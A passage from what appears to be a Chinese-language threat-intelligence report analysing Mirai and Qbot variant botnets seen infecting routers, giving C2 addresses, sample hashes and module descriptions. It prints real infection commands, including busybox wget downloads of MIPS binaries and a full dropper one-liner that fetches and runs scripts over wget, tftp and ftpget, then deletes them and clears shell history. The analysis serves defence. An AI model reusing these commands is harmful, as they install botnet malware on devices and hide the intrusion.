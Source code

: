 新的CNC<br>
185.232.65.169:8080<br>
新的 CNC 上线包如下<br>[![](https://p2.ssl.qhimg.com/t010d4245eb30d2dc64.png)](https://p2.ssl.qhimg.com/t010d4245eb30d2dc64.png)

根据这个上线包，我们将该僵尸网络称为 Mirai变种僵尸网络 THANOS
<li>Q bot僵尸网络变种<br>
这是一个持续存在的僵尸网络，在我们三次探测中均有出现。预计感染了大量设备。<br>
使用的感染命令如下：<br>
编号2 busybox wget [http://185.244.25.162/mips](http://185.244.25.162/mips) -O /tmp/.m<br>
编号7 busybox wget [http://58.215.144.205/mips](http://58.215.144.205/mips) -O /tmp/.q<br>
编号12 busybox wget [http://58.215.144.205/mips](http://58.215.144.205/mips) -O /tmp/adj</li>
2.1 185.244.25.162 样本



### <a class="reference-link" name="sha256sum%20185.244.25.162/mips"></a>sha256sum 185.244.25.162/mips

73473c37e5590bd3eb043e33e2f8832989b88f99449582399522c63d4d46251e 185.244.25.162/mips



### <a class="reference-link" name="file%20185.244.25.162/mips"></a>file 185.244.25.162/mips

185.244.25.162/mips: ELF 32-bit MSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, stripped<br>
该恶意样本属于 MIPS 架构，使用 UPX 加壳。在脱壳对其进行逆向的过程中，我们意外发现了与该样本相关的源码：[https://darknetleaks.xyz/archive/botnetfiles/Qbot%20Sources/Hacker%20serverside&amp;clientside/client.c](https://darknetleaks.xyz/archive/botnetfiles/Qbot%20Sources/Hacker%20serverside&amp;clientside/client.c)

但该样本和源码依然有很多地方不同：

对外扫描的IP段不同，样本中对外扫描的IP段如下：<br>
该样本在对外扫描时，只会扫描表格中的这些IP<br>[![](https://p2.ssl.qhimg.com/t01ee82805b63826854.png)](https://p2.ssl.qhimg.com/t01ee82805b63826854.png)

· kill别的bot的列表<br>
该样本会检测路由器中已有的进程，如果遇到下列可能属于其它僵尸网络的进程，将会进行 kill 操作(匹配的关键词远比源码中的丰富)<br>[![](https://p5.ssl.qhimg.com/t01cbd8911276481cd8.png)](https://p5.ssl.qhimg.com/t01cbd8911276481cd8.png)

该样本的 CNC 为： 185.33.145.92:252,该 CNC 依旧处于活跃状态<br>[![](https://p4.ssl.qhimg.com/t013fe9c173ed297343.png)](https://p4.ssl.qhimg.com/t013fe9c173ed297343.png)

需要注意的是

该样本内置了 DDoS 攻击模块，可以根据 CNC 指令发动 TCP、UDP、HTTP洪水攻击<br>
该样本内置了 netcore backdoor利用模块，并且可以通过CNC开启对外扫描（默认关闭，相关漏洞详情可以参考链接：[http://blog.knownsec.com/2015/01/a-brief-analysis-of-netcore-netis-leak-emergency/）](http://blog.knownsec.com/2015/01/a-brief-analysis-of-netcore-netis-leak-emergency/%EF%BC%89)

利用脚本如下：<br>
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget [http://185.33.145.92/miggs.sh](http://185.33.145.92/miggs.sh); chmod 777 miggs.sh; sh miggs.sh; tftp 185.33.145.92 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 185.33.145.92; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 185.33.145.92 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf miggs.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *; history -c<br>
2.2 58.215.144.205 样本（2018/05/07 版本）
